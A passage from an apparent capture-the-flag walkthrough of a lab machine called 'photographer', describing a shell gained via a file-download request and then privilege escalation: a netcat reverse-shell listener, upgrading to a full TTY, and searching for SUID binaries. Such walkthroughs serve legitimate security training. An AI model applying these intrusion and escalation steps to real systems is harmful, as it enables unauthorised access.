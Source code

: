 ![Burp](images/burp.png)
Click on Download File and you will get a shell.
![Shell](images/shell.png)

## Privilege Escalation
Get a full tty and check files with suid perm. 
```Console
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@photographer:/$ ^Z
[1]  + 7068 suspended  nc -lvvp 1234
➜  ~ stty raw -echo; fg
[1]  + 7068 continued  nc -lvvp 1234
                                    reset xterm
www-data@photographer:/$ export TERM=xterm
www-data@photographer:/$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
```